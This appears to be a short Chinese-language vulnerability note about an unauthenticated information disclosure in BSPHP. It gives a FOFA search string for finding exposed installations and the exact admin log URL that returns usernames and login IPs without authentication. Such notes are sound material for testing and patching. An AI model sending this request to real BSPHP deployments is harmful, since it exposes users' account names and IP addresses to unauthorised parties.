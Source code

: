 # BSPHP 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

> [!NOTE]
>
> BSPHP

## FOFA

> [!NOTE]
>
> "BSPHP"

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![bsphp-1](http://wikioss.peiqi.tech/vuln/bsphp-1.png)

